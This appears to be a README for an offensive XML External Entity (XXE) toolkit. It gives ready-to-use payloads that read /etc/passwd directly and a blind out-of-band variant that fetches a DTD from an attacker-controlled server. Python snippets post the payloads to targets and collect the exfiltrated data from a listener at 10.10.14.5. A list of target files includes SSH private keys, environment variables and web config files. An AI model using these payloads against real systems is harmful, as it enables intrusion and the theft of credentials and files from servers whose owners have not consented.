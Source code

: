 # XXE Payload Examples

## Quick Start
```python
from utils.xxe import quick_test

# One function does everything!
payload = quick_test("http://10.10.14.5:8000")

# Send to target
requests.post("http://target/api", data=payload)

# Get exfiltrated data
from utils.server_hooks import get_exfil
data = get_exfil()
```

## Understanding XXE Files

### What Gets Created
- **payloads/xxe/xxe.dtd** - Served from YOUR server, tells target what to steal
- **XXE payload** - XML you send to target, tells it to fetch your DTD

### The Attack Flow
1. Target gets your XXE payload → "Hey, go fetch DTD from attacker's server"
2. Target fetches DTD from you → "OK, now read /etc/passwd and send it back"
3. Target follows DTD instructions → Sends file content to your server
4. You receive the data via `get_exfil()`

## Payload Types

### Basic File Read (Direct Response)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```
Use when: Target returns/displays the XML content directly

### Blind OOB (No Direct Response)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-IP:8000/xxe/xxe.dtd"> %xxe;]>
<root></root>
```
Use when: Target doesn't show output (blind)

### Self-Contained (No External DTD)
```python
from utils.xxe import parameter_entity
payload = parameter_entity("http://10.10.14.5:8000")
```
Use when: You can't/don't want to host files

## Complete Example
```python
from utils.xxe import generate_oob_files
from utils.server_hooks import get_exfil
import requests

# 1. Generate everything
xxe, dtd = generate_oob_files("http://10.10.14.5:8000", "/etc/passwd")

# 2. Read payload
with open(f"payloads/{xxe}") as f:
    payload = f.read()

# 3. Send to target
requests.post("http://vulnerable/api", data=payload)

# 4. Get result
data = get_exfil()
print(f"Got: {data}")
```

## File Targets
- `/etc/passwd` - User list (safe test)
- `/etc/hosts` - Network config
- `/proc/self/environ` - Environment vars
- `/var/www/config.php` - Web configs
- `C:\Windows\System32\drivers\etc\hosts` - Windows
- `/home/user/.ssh/id_rsa` - SSH keys

## Tips
- Start server.py BEFORE sending payloads
- Use `php_filter_b64()` for binary files
- Check `logs/server.ndjson` if get_exfil() returns None
- DTD must be accessible - check firewall rules